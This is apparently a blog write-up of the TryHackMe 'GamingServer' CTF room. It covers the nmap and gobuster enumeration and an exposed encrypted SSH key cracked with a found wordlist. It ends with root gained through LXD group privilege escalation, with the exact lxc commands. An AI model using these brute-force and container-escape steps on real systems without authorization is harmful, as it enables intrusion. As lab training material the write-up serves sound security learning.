 # THM - GamingServer Writeup

> Mario Raciti | Sep 1, 2020
>
> TryHackMe CTF Room: https://tryhackme.com/room/gamingserver

### An Easy Boot2Root box for beginners

The aim of this room is to gain access to a gaming server built by amateurs with no experience of web development and to take advantage of the deployment system.

There is only one task, indicating that we have to get two flags: `user_flag` and `root_flag`. So without any further ado, let's begin our game!

## Nmap Scan

Let's start this room by running a classic nmap scan:

```sh
$ nmap -sC -sV $IP

Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-31 17:09 CEST
Stats: 0:00:09 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 10.10.26.252
Host is up (0.078s latency).
Not shown: 921 closed ports, 77 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.45 seconds
```

Well, it seems we have only two open ports: `22 (SSH)` and `80 (HTTP)`.

## Web Directories Enumeration

Let's start by visiting the homepage of the web server listening on port 80. By inspecting the source page, we can notice that it contains the following comment at the footer:

```html
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
```

Thus, we can guess that a candidate username for an SSH login could be `john`.

Now let's give a look if the web server provides a `robots.txt` file:

```
GET http://$IP/robots.txt

user-agent: *
Allow: /
/uploads/
```

We can see the `/uploads` endpoint, so let's investigate about:

```
GET http://$IP/uploads/

dict.lst	2020-02-05 14:10	2.0K	 
manifesto.txt	2020-02-05 13:05	3.0K	 
meme.jpg	2020-02-05 13:32	15K	 
```

The `dict.lst` file seems to contain a password list. Maybe this list could be used to bruteforce the SSH login.

### Gobuster

Before going ahed, let's enumerate directories using Gobuster with the [common.txt](https://github.com/digination/dirbuster-ng/blob/master/wordlists/common.txt) list:

```sh
$ gobuster dir --url $IP -w common.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.26.252
[+] Threads:        10
[+] Wordlist:       common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/31 17:44:37 Starting gobuster
===============================================================
/secret (Status: 301)
/uploads (Status: 301)
===============================================================
2020/08/31 17:45:03 Finished
===============================================================
```

As we can see, the tool found only two directories: `/secret` and `/uploads`. We already checked the latter, so we can concentrate our analysis on the `/secret` endpoint:

```
GET http://$IP/secret/

secretKey	2020-02-05 13:41	1.7K
```

Bingo! We got a private RSA SSH key:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

*******************************************
***********CENSORED_EH_EH******************
*******************************************
-----END RSA PRIVATE KEY-----
```

## SSH Dictionary Attack

The SSH RSA private key is encrypted, so we have to crack the password. To this purpose, we can surely use the `dict.lst` list that we found previously. Note that this operation can be performed by using our old friend JohnTheRipper, but in this case I preferred to use the SSHAttacker Python script - source is available [here](https://github.com/forScie/SSHAttacker) - to think *out of the box*. Before starting the cracking process, I just added the `key_name='rsa_id'` parameter to the connect method in the script, in order to adapt it to our use case:

```python
line 36	   ssh.connect(target, port=int(float(port)), username=user, password=password, key_filename='./rsa_id')
```

At this point, we can simply run SSHAttacker with `dict.lst` as password list:

```
...
[-] Attempt n-1: ***censored*** ... Unsuccessful
[-] Attempt n: ***password_eheh*** ... Bingo!

[!] SUCCESS! Creds: john@10.10.165.124:22 Password: ***password_eheh***
```

We got the password and, after logging in via SSH, we can finally retrieve the user flag:

```sh
john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
***user_flag***
```

## Privilege Escalation

Now we have to elevate our privileges in order to get the root flag. We can just scp and run the [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) script in the VM to look for something interesting.
I firstly noticed that there is a weird link in a `/usr/bin/at` binary. But it was a joke just as `/usr/bin/pkexec`, another potential way to elevate our privileges. Both refers to CVEs which can be exploited by using a C executable, FYI.

At this point, I was looking for the right way to perform a privilege escalation. We can notice that the user john is in the lxd group:

```sh
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

We can exploit this fact because LXD containers run with root privileges in most cases. Therefore, the exploit consts of mounting the file system in a container, so that we can have access to it. For more information, you can read [this article](https://www.hackingarticles.in/lxd-privilege-escalation/). In our case, we can use the alpine image:

```sh
attacker@machine:~$ git clone https://github.com/saghul/lxd-alpine-builder.git
attacker@machine:~$ cd lxd-alpine-builder/
attacker@machine:~$ sudo ./build-alpine -a i686
```

Now we have to move the `alpine-v3.12-i686-20200901_1306.tar.gz` archive to the victim machine:

```sh
attacker@machine:~$ scp -i rsa_id alpine-v3.12-i686-20200901_1306.tar.gz john@10.10.170.65:/home/john/
```

Eventually, all we have to do is to just add the image as follows:

```sh
john@exploitable:~$ lxc image import alpine-v3.12-i686-20200901_1306.tar.gz --alias exploit_image
Image imported with fingerprint: dc53ca24314f0dee7e940d9e9519215a725b761e8e6ad98
john@exploitable:~$ lxc image list
+---------------+--------------+--------+-------------------------------+------+--------+-----------------------------+
|     ALIAS     | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCH |  SIZE  |         UPLOAD DATE         |
+---------------+--------------+--------+-------------------------------+------+--------+-----------------------------+
| exploit_image | dc53ca24314f | no     | alpine v3.12 (20200901_13:06) | i686 | 3.07MB | Sep 1, 2020 at 1:17pm (UTC) |
+---------------+--------------+--------+-------------------------------+------+--------+-----------------------------+
```

We can now run the container from the `exploit_image` image:

```sh
john@exploitable:~$ lxc init exploit_image ignite -c security.privileged=true
Creating ignite
john@exploitable:~$ lxc config device add ignite my_device disk source=/ path=/mnt/root recursive=true
Device my_device added to ignite
john@exploitable:~$ lxc start ignite
john@exploitable:~$ lxc exec ignite /bin/sh
~ # whoami
root
```

And voilà!

The root flag can be retrieved by going to the mounted path `/mnt/root/root`:

```sh
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt 
***root_flag***
```

---

### That's all folks!
